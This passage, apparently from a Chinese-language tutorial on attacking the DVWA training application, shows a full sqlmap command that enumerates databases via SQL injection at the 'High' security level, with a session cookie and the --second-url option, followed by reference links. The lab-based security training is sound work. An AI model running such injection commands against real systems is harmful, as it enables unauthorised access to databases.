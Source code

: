 唯一不同的是需要使用--data执行post请求参数


### 使用sqlmap进行High等级的注入


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli"  --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --second-url "http://192.168.1.2/dvwa/vulnerabilities/sqli/session-input.php" --dbs

```


此等级需要使用`--second-url`指定输入id的页面URL


## 参考文章：

- [https://www.freebuf.com/articles/web/120747.html](https://www.freebuf.com/articles/web/120747.html)
- [https://www.cnblogs.com/jojo-feed/p/10173241.html](https://www.cnblogs.com/jojo-feed/p/10173241.html)
- [https://www.jianshu.com/p/078df7a35671](https://www.jianshu.com/p/078df7a35671)
